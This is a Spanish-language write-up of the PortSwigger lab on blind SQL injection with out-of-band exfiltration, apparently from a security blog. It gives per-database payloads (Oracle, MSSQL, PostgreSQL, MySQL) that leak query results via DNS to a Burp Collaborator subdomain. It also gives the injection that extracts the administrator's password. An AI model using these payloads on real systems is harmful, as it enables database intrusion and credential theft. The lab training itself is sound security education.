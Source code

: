 ```yaml
---
title: Blind SQL injection with out-of-band data exfiltration - portswigger
date: 2024-08-04T00:00:00.000Z
categories:
  - Write up
  - portswigger
tags:
  - sql injection
---
```


# Lab: Blind SQL injection with out-of-band data exfiltration

Puede hacer que la base de datos realice una búsqueda de DNS en un dominio externo que contenga los resultados de una consulta inyectada. Para ello, deberá utilizar [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) para generar un subdominio exclusivo de Burp Collaborator que utilizará en su ataque y, luego, sondear el servidor de Collaborator para recuperar detalles de cualquier interacción de DNS, incluidos los datos exfiltrados.

|            |                                                                                                                                                                                                                                                                                            |
| ---------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| Oracle     | `SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'\|(SELECT YOUR-QUERY-HERE)\|'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual`                                                                          |
| Microsoft  | `declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')`                                                                                                                                                             |
| PostgreSQL | `create OR replace function f() returns void as $$ declare c text; declare p text; begin SELECT into p (SELECT YOUR-QUERY-HERE); c := 'copy (SELECT '''') to program ''nslookup '\|p\|'.BURP-COLLABORATOR-SUBDOMAIN'''; execute c; END; $$ language plpgsql security definer; SELECT f();` |
| MySQL      | <p>The following technique works on Windows only:<br><code>SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'</code></p>                                                                                                                                              |

En este ejercicio debemos de obtener las credenciales del usuario administrator, por lo que nos ayudaremos de `burp collaborator`, para ello usamos la siguiente `query`.

```c
' || (SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password from users where username='administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual)-- -
```

La consulta debemos de ponerla dentro de : `' || (<query>)`. Luego hacemos url encode y podemos enviarla para obtener las credenciales del usuario.

![20240805125502.png](20240805125502.png)
